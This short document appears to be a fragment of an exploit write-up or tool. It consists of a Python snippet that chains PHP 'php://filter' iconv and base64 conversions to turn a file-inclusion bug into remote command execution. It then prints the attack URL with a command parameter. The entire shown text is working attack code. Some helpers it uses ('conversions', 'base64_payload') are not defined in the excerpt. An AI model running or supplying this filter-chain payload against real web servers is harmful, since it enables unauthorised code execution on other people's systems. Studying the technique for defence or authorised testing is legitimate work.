 ```python
# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"


for c in base64_payload[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

print(f"{url}{final_payload}&0={command}")
```
